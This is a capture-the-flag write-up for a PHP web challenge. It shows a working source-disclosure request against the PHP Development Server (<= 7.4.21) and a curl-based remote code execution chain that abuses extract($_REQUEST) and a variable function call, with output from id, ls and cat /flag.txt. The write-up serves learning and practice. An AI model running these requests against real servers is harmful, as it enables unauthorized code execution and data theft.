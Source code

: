 # Truco [4 Solves]

## Description

> Double dose of Truco tricks
>
> Connect here: `13.215.209.185:8080`

No attachment.

## Flag

wgmy{b7030e464dfc7ff1c899b89025699e1b}

## TL;DR

- Leak a PHP source code by [PHP Development Server <= 7.4.21 - Remote Source Disclosure](https://blog.projectdiscovery.io/php-http-server-source-disclosure/)
- RCE by `$_POST['func']($value)` and `extract($_REQUEST)`

## Solution

![1.png](img/1.png)

```php
<?php
include "flag.php";
highlight_file(__FILE__);
error_reporting(0);

$a = $_GET['a'];
$b = $_GET['b'];

if(!preg_match("/\?a=notnull/i", $_SERVER['REQUEST_URI'])){
    exit("<h2>Oops :(<h2>");
}

if(preg_match("/^[0-9+-\/\*e ]/i", $num)){
    exit("<h2>Oops Oops :(<h2>");
}

if (is_null($a)){
    if (is_numeric($num)){
        echo $flag;
    }
    else{
        echo "<h2>No flag for you yet :P<h2>";
    }
}else{
    echo "<h2>No flag for you :P<h2>";
}
?>
```

Accessing the given URL, the PHP source code is displayed.
By using `highlight_file(__FILE__);`, the code outputting itself, it's confirmed that the visible code is indeed the source code.

From reading this code only, it appears that there are certain conditions that need to be met for the flag.
One of them is that the `$num` variable must satisfy `is_numeric($num)`.
However, the `$num` variable is not defined anywhere in this code.
Although it's possible that it could be defined within the `flag.php` file that is being included, getting the flag would still be challenging without reading the implementation of `flag.php`.

On further investigation for alternative approaches, I discovered the presence of the `X-Powered-By: PHP/7.4.21` header in the response.

![burp-req-res.png](img/burp-req-res.png)

Investigating PHP 7.4.21, I found an article on Project Discovery regarding a vulnerability titled [PHP Development Server <= 7.4.21 - Remote Source Disclosure](https://blog.projectdiscovery.io/php-http-server-source-disclosure/) related to PHP's Development Server.

Since it was unclear whether the challenge server was using the PHP Development Server, I considered checking if the UI of the error page could provide any insights.
To do this, I input `/a.p` in the URL path to trigger a 404 page.

![404.png](img/404.png)

The UI of the 404 page displayed after inputting `/a.p` in the URL path matched the one I observed in my local environment while running `php -S 0.0.0.0:8000`.
Therefore, I guessed that the challenge server is running on the Development Server.

Referring to the Proof of Concept in Project Discovery's article, I executed the request in Burp Repeater and successfully obtained `flag.php`. Note that I unchecked the `Update Content-Length` option under Burp's `Repeater` in the top menu > `Update Content-Length` to prevent the automatic insertion of `Content-Length` in the request header.

![flag.php](img/flag.php.png)

request

```text
GET /flag.php HTTP/1.1
Host: 13.215.209.185:8080

GET /xyz.xyz HTTP/1.1

```

flag.php

```php

<?php

$flag="flag{fakeflag_dontsubmit}";

if(in_array($_REQUEST['func'], ['is_string','is_null','is_numeric'])){
    include "secret.php";
    echo $_POST['func']($value);
}

?>
```

I understood that the flag found in `flag.php` is not the correct flag.
I discovered that the `if` statement are executed when the request parameter named `func` is either a string, null, or numeric, based on checks with `is_string`, `is_null`, and `is_numeric`.

I also obtained `secret.php` using a similar approach.

secret.php

```php
<?php
extract($_REQUEST);
?>
```

I found that PHP's [extract()](https://www.php.net/manual/en/function.extract.php) function is being executed.
As shown in the sample code in the documentation, `extract()` is a function that allows the creation of arbitrary variables.
For example, from an array like `array("a" => "b")`, it creates a variable `$a` and assigns the value `b` to it.

Tested in PHP Console:

```console
php > extract(array("a" => "b"));
php > echo $a;
b
```

Re-taking a look at the code, I found that `extract($_REQUEST)` is called and then `echo $_POST['func']($value)`.
By assigning `"system"` to `$_POST['func']` and providing a command to `$value`, it becomes possible to Remote Code Execution (RCE) as `system($value)`.

```console
$ curl -X POST 'http://13.215.209.185:8080/?func=is_string&_POST\[func\]=system&value=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I was able to execute arbitrary commands.
Now, all that's left is to get the flag.
Use the `ls` command to check the location of the flag, and then use the `cat` command.

```console
$ curl -X POST 'http://13.215.209.185:8080/?func=is_string&_POST\[func\]=system&value=ls+/'
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
...
$ curl -X POST 'http://13.215.209.185:8080/?func=is_string&_POST\[func\]=system&value=cat+/flag.txt'
wgmy{b7030e464dfc7ff1c899b89025699e1b}
...
```
